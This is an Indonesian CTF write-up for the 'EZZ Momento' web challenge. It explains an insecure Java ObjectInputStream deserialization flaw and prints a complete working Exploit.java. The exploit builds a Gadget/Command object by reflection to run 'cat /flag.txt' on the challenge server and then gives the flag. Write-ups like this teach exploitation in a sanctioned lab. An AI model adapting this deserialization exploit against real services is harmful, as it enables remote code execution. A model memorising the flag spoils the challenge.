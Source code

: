 # EZZ Momento

{% hint style="info" %}
Category: Web

Difficulty: medium
{% endhint %}

## Deskripsi

> java is ezz... zzz...
>
> but wait! whattt.......!?
>
> http://ctf.slashrootctf.id:30013 Diberikan source code: [dist.zip](https://ctf.slashrootctf.id/files/fdeb42f3b7de5cf8403484c1f3f44897/dist.zip?token=eyJ1c2VyX2lkIjoxNiwidGVhbV9pZCI6MzIsImZpbGVfaWQiOjE4fQ.ZvgxlQ.XJEWvmTXp41Ji30feQJFC-cYZHE)

## Langkah Penyelesaian

* Kali tidak black box testing, tapi lumayan sulit bagi yang belum pernah belajar Java.
* Jujur aja saya banyak dibantu oleh AI. Kerentanan utamanya ada pada penggunaan `ObjectInputStream` dalam class `MyHandler`.

{% code lineNumbers="true" %}
```java
try (ObjectInputStream objectInputStream = new ObjectInputStream(exchange.getRequestBody())) {
    String response = "";
    try {
        response = objectInputStream.readObject().toString();
    } catch (ClassNotFoundException | IOException e) {
        e.printStackTrace();
        response = e.toString();
    }
    // ...
}
```
{% endcode %}

* Hal tersebut bisa menyebabkan RCE karena server langsung menerima objek yang diserialkan tanpa memvalidasinya terlebih dulu.
* Ditambah lagi ada class `Gadget` dan `Command` yang dapat membuat proses eksploitasi lebih mudah. Di mana class `Command` memungkinkan eksekusi perintah sistem secara langsung. Dan class `Gadget` akan memanggil method `run()` dari `Command` saat `toString()` dipanggil.
* Kemudian saya diberikan script `Exploit.java` menggunakan **Reflection** oleh AI untuk mencoba RCE. Setelah beberapa kali penyesuaian karena issue package-package di Java akhirnya bisa juga :)
* Berikut ini adalah exploit scriptnya:

{% code lineNumbers="true" %}
```java
// Script ini terletak di `src/main/java`

import com.dimas.Command;
import com.dimas.Gadget;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.HttpURLConnection;
import java.net.URL;
import java.util.Base64;

public class Exploit {
    public static void main(String[] args) throws Exception {
        // Buat objek Command menggunakan konstruktor tanpa argumen
        Command cmd = new Command();
        
        // Gunakan refleksi untuk mengakses dan mengubah field 'command'
        Field commandField = Command.class.getDeclaredField("command");
        commandField.setAccessible(true);
        commandField.set(cmd, "cat /flag.txt");
        
        // Bungkus Command dalam Gadget
        Gadget gadget = new Gadget(cmd);
        
        // Serialisasi objek Gadget
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(gadget);
        oos.close();
        
        // Encode payload ke Base64
        String payload = Base64.getEncoder().encodeToString(baos.toByteArray());
        
        // Kirim payload ke server
        URL url = new URL("http://ctf.slashrootctf.id:30013");
        HttpURLConnection con = (HttpURLConnection) url.openConnection();
        con.setRequestMethod("POST");
        con.setDoOutput(true);
        con.getOutputStream().write(Base64.getDecoder().decode(payload));
        
        // Baca respons dari server
        java.util.Scanner s = new java.util.Scanner(con.getInputStream()).useDelimiter("\\A");
        String response = s.hasNext() ? s.next() : "";
        System.out.println("Server response: " + response);
    }
}
```
{% endcode %}

* Alhamdulillah, berhasil solve semua soal web exploit :))

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Flag

<kbd>slashroot8{it\_is\_really\_private\_UwU}</kbd>
